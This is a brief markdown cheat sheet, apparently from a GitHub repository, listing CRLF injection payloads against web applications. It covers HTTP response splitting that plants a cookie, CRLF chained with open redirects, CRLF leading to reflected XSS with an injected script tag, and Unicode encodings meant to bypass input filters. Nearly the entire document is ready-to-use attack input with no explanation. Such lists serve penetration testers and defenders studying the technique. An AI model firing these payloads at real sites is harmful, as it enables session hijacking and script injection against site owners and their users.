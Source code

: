 # **CRLF Injection (%0d%0a)**

[https://medium.com/cyberverse/crlf-injection-playbook-472c67f1cb46](https://medium.com/cyberverse/crlf-injection-playbook-472c67f1cb46)



## **Payloads**

```
1. HTTP Response Splitting
• /%0D%0ASet-Cookie:mycookie=myvalue
2. CRLF chained with Open Redirect
• //www.google.com/%2F%2E%2E%0D%0AHeader-Test:test2                     • /www.google.com/%2E%2E%2F%0D%0AHeader-Test:test2                       • /google.com/%2F..%0D%0AHeader-Test:test2
• /%0d%0aLocation:%20http://example.com
3. CRLF Injection to XSS
• /%0d%0aContent-Length:35%0d%0aX-XSS-Protection:0%0d%0a%0d%0a23
• /%3f%0d%0aLocation:%0d%0aContent-Type:text/html%0d%0aX-XSS-Protection%3a0%0d%0a%0d%0a%3Cscript%3Ealert%28document.domain%29%3C/script%3E
4. Filter Bypass
• %E5%98%8A = %0A = \u560a
• %E5%98%8D = %0D = \u560d
• %E5%98%BE = %3E = \u563e (>)
• %E5%98%BC = %3C = \u563c (<)
• Payload = %E5%98%8A%E5%98%8DSet-Cookie:%20test
```
